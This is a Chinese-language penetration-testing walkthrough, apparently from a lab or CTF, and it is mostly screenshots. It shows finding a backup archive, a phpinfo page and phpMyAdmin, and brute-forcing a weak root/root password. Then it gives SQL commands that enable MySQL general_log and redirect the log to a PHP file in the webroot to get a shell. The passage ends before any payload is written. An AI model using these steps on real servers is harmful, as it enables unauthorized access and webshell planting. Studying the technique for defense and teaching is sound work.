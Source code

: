 ![](https://s3.hedgedoc.org/demo/uploads/8e2d46c4-0b92-4995-ab0f-412ba6ba99c7.png)

**备份文件夹（beifen.rar）：**

![](https://s3.hedgedoc.org/demo/uploads/fc0e14cf-fc91-4481-bf76-fa52a7786688.png)

**phpinfo页面：**

![](https://s3.hedgedoc.org/demo/uploads/e56ea589-e6be-46cb-94cd-a9c9afedf55f.png)




**phpmyadmin页面：**

![](https://s3.hedgedoc.org/demo/uploads/56bda7ee-3de6-4bec-b9b5-a56872965ad1.png)


**爆破密码：**

![](https://s3.hedgedoc.org/demo/uploads/85d1fe27-f57a-4026-9de9-913f1b85b778.png)


是一个弱口令root——root

![](https://s3.hedgedoc.org/demo/uploads/7b90de00-b113-4ec2-80c1-981a0166c06f.png)


![](https://s3.hedgedoc.org/demo/uploads/fd3ecda9-8aac-4baa-9a8e-3dda8a4ae04d.png)


**利用phpmyadmin进行getshell：**

general_log 默认关闭，开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。如果可以自定义日志文件，并向日志文件里面写入内容，那么就可以成功 getshell：



**查看当前配置：**

```sql
SHOW VARIABLES LIKE 'general%'
```



![](https://s3.hedgedoc.org/demo/uploads/14f42dd7-651b-4c14-abee-21d176f3b133.png)


**开启general_log:**

```sql
set global general_log = "ON";
```

![](https://s3.hedgedoc.org/demo/uploads/f93f462c-a268-4579-ac9b-e6540a74c213.png)


**更改日志文件位置:**


```sql
set global general_log_file='C:/phpStudy/WWW/1.php';
```
